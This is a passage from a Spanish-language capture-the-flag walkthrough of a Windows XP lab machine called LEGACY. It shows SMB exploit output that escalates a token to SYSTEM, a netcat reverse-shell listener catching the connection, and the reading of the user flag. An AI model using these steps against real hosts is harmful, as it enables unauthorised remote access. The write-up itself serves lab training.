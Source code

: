 ```bash
make this SMB session to be SYSTEM
current TOKEN addr: 0xe245cbd0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe245cc70
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service KPOX.....
Starting service KPOX.....
The NETBIOS connection with the remote host timed out.
Removing service KPOX.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
<br/>

En la consola donde se ejecutaba el **smb** se deberán de haber añadido las siguientes líneas:

```bash
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
```
<br/>

Y en la consola donde estabamos en escucha, deberíamos de tener acceso a la máquina:

```bash
sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.4] 1038
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
<br/>

Una vez dentro, podemos acceder a la flag **user.txt**:

```cmd
C:\Documents and Settings\john\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john\Desktop

16/03/2017  08:19 ��    <DIR>          .
16/03/2017  08:19 ��    <DIR>          ..
16/03/2017  08:19 ��                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.403.887.104 bytes free

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
<br/>
